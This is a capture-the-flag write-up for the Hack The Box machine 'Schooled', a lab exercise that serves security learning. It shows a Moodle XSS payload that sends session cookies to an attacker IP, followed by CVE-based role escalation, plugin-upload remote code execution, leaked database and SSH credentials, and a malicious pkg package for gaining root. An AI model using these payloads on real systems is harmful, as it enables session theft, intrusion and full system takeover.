



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.234 schooled.htb

**nmap scan:**
```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp    open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
1 service unrecognized despite returning data.

Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

* **mysqlx is mysql + X Plugin**
* musqlx overview [blog](https://mysqlserverteam.com/mysql-5-7-12-part-3-more-than-just-sql/) 
* Python module [mysql-connector-python](https://github.com/mysql/mysql-connector-python) for intract with mysqlx: `pip install mysql-connector-python`
* **[X Plugin](https://dev.mysql.com/doc/refman/5.7/en/x-plugin.html)** allows MySQL to function as a document store. X Plugin enables MySQL Server to communicate with clients using **[X Protocol](https://dev.mysql.com/doc/internals/en/x-protocol.html)**, which is a prerequisite for using MySQL as a document store. Clients that communicate with a MySQL Server using X Protocol can use **[X DevAPI](https://dev.mysql.com/doc/x-devapi-userguide/en/)** to develop applications. X DevAPI offers a modern programming(javascript, python) interface with a simple yet powerful design which provides support for established industry standard concepts. **[mysql port](https://dev.mysql.com/doc/mysql-port-reference/en/mysql-ports-reference-tables.html)** for X Protocol (mysqlx_port), supported by clients such as MySQL Shell, MySQL Connectors and MySQL Router, is calculated by multiplying the port used for classic MySQL protocol. if the classic MySQL protocol port is the default value of 3306 then the X Protocol port is 33060.
* http server is Running static web app

**ffuf scan** found a subdomain
```bash
❯ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -H 'Host: FUZZ.schooled.htb' -u http://schooled.htb/ -ac -c -v

... [snip] ...
________________________________________________

[Status: 200, Size: 84, Words: 5, Lines: 2]
| URL | http://schooled.htb/
    * FUZZ: moodle
```

# Foothold

## Moodle LMS Enumeration

`moodle.schooled.htb` running a LMS(Learning Management System) Application


**[Moodle](https://moodle.org/)** is a free and open-source learning management system written in PHP and distributed under the GNU General Public License.

using [droopescan](https://github.com/droope/droopescan) tool to scan moodle cms
```bash
❯ droopescan scan moodle -u http://moodle.schooled.htb/moodle/
[+] Plugins found:                                                              
    forum http://moodle.schooled.htb/moodle/mod/forum/
        http://moodle.schooled.htb/moodle/mod/forum/upgrade.txt
        http://moodle.schooled.htb/moodle/mod/forum/version.php

[+] No themes found.

[+] Possible version(s):
    3.10.0-beta

[+] Possible interesting urls found:
    Static readme file. - http://moodle.schooled.htb/moodle/README.txt
    Admin panel - http://moodle.schooled.htb/moodle/login/
```

Running version **`3.10.0-beta`(?)**

from login page `http://moodle.schooled.htb/moodle/login/` get "create new account" option but when tring to create new account, get email address error.


than create student account with email `<username>@student.schooled.htb`

Don't find anything intresting from student account. 

### version identifing

droopescan found version `3.10.0-beta` but if we compare `/mod/forum/upgrade.txt` changelogs with orignal [v3.10.0-beta](https://github.com/moodle/moodle/blob/v3.10.0-beta/mod/forum/upgrade.txt) from [github repo](https://github.com/moodle/moodle) there is something missing


Running version on the sever is potentially **`>=3.9.0-beta` to `<=3.9.2`**

we can cross check this by comparing `md5sum` hash from server and github's `upgrade.txt` file.


md5sum hash is equal with version `3.9.2` and `upgrade.txt` Latest commit `d21d6ba on Oct 17, 2019` in version `3.9.0-beta` and still same until `3.9.3`

### vulnerability

found vulnerability list from [snyk vulnerability database](https://snyk.io/vuln/composer:moodle%2Fmoodle)


There are 2 vulnerabilities looks intresing

[XSS](https://snyk.io/vuln/SNYK-PHP-MOODLEMOODLE-1049535): Affected versions of this package are vulnerable to Cross-site Scripting (XSS). The `moodlenetprofile` user profile field required extra sanitizing to prevent a stored XSS risk.

[Privilege Escalation](https://snyk.io/vuln/SNYK-PHP-MOODLEMOODLE-1048845): Affected versions of this package are vulnerable to Privilege Escalation. Users with "Log in as" capability in a course context (typically, course managers) may gain access to some site administration capabilities by "logging in as" a System manager.

**XSS** can be exploited from user and **Privilege Escalation** give access to admin panle from manager role and we already know the manager "Lianne Carter".


## XSS in "Moodle"

[CVE-2020-25627](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25627): `moodlenetprofile` field in user profile is vulnerable for xss. which found `http://moodle.schooled.htb/moodle/user/edit.php` after creating student account.


**Payload**
```html
<script>var i=new Image;i.src="http://10.10.15.71:8000/?"+document.cookie;</script>
```

save payload in `moodlenetprofile` field and wait.


this happend because xss payload saved in user profile and when other user visit to that user's profile script executed on there browser.

From mathematics Lecturer "Manuel Phillips" course Announcements `http://moodle.schooled.htb/moodle/mod/forum/discuss.php?d=5`: "For students who wish to attend my lectures be sure that you have your MoodleNet profile set." when user enroll in his course, **teacher review that student profile**.

So when "Manuel Phillips" visit our profile, xss payload get executed in his browser and we get his session cookie.


## Privilege Escalation in "Moodle"

PoC from [HoangKien1020@github](https://github.com/HoangKien1020/CVE-2020-14321)

### From teacher to manager role

**[CVE-2020-14321](https://moodle.org/mod/forum/discuss.php?d=407393):** Teachers of a course were able to assign themselves the manager role within that course.

*Hackbar is not working properly for me so i setup brup rule for replacing cookie*

*And also, we can use cookie editor but knowing multiple solutions for a problem could be useful in some situation.*

First setup scope limitied to `schooled.htb` host so brup only granted only scoped host request.


than setup "match and replace" rule to replace cookie value.


add same rule for both headers


**Continue**

When teacher "Manuel Phillips" add Participants in his course. There is a option to assign role for the Participant only inside that course. if we as "Manuel Phillips" intercept that request and change role id to `1`, that Participant become a manager inside the course. That way we add "Manuel Phillips" in manager role inside the course by changing userID with roleID.

**First,** Go to course Participants tab and enrol users.


**Second,** Intercept enrolled request and replace `userlist%5B%5D=24` and  `roletoassign=1` and forward the request.


And "Manuel Phillips" got manager role.


**Third,** Now we need to add orignal manager "Lianne Carter" in the Participants.

Currently we are as manager role inside the course, that means we can login as any user from Participants list and if we add "Lianne Carter" in the Participants we can login as "Lianne Carter" and "Lianne Carter" have manager role over full website.

So Assign user "Lianne Carter" in the course


And now going to "Lianne Carter" profile from course Participants as "Manuel Phillips", we can see a new option "Log in as"


Click login as and continue


And we are logged in as "Lianne Carter"



### From manager to admin role

**[CVE-2020-25629](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25629):** Users with "Log in as" capability in a course context (typically, course managers) may gain access to some site administration capabilities by "logging in as" a System manager.


inside "Define roles" select manage and edit.



inside "edit" click on "save changes" and intercept that request and replace post data with [PoC](https://github.com/HoangKien1020/CVE-2020-14321#payload-to-full-permissions)'s payload and forward.

- [ ] Forget to take screenshot <!---->

after that we can see extra option in "plugins"


## Moodle Admin RCE

click on "install plugins" than "Install plugin from ZIP file" and upload `rce.zip` get from [PoC](https://github.com/HoangKien1020/CVE-2020-14321)


Click install than continue and after that go to `http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id`
*plugin deletes after few minuts*



<!--*after getting "Validating block_rce ... OK" click continue and leave that page there. That way u can revert the rce by clicking browser back button one time to get that Validating page and from there click continue again.*-->

# Privesc

After some manual enumeration found moodle directory and get the db creds from config.php file


<!--moodle:PlaybookMaster2020-->

login to mysql and get "admin" password hash
```bash
/usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -D moodle -e "SELECT username,password FROM mdl_user WHERE username='admin'"
```


<!--jamie:!QAZ2wsx-->

## `pkg` with sudo

There are 2 users on the box
```bash
jamie:*:1001:1001:Jamie:/home/jamie:/bin/sh
steve:*:1002:1002:User &:/home/steve:/bin/csh
```

Cracked hash worked for user "jamie" on ssh login.

User "jamie" have sudo right to run `/usr/sbin/pkg` as any user on the box with NOPASSWD.
```bash
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

user "jamie" can install any freebsd package with sudo.

found exploit from [gtfobins](https://gtfobins.github.io/gtfobins/pkg/), *this is same as `sudo snap` on [armageddon box](../armageddon/README.md#snap-install-with-sudo)*.


Create milicious package from fpm.
```bash
COMMAND='chmod +s /bin/bash'
TF=$(mktemp -d)
echo "$COMMAND" > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```

If `fpm` is not install
```bash
sudo gem install --no-document fpm
sudo apt-get install squashfs-tools
```

upload package with scp
```bash
sshpass -p '!QAZ2wsx' scp ./x-1.0.txz jamie@schooled.htb:/home/jamie/pkg
```

And finally run
```bash
sudo -u root /usr/sbin/pkg install -y --no-repo-update ./x-1.0.txz
```


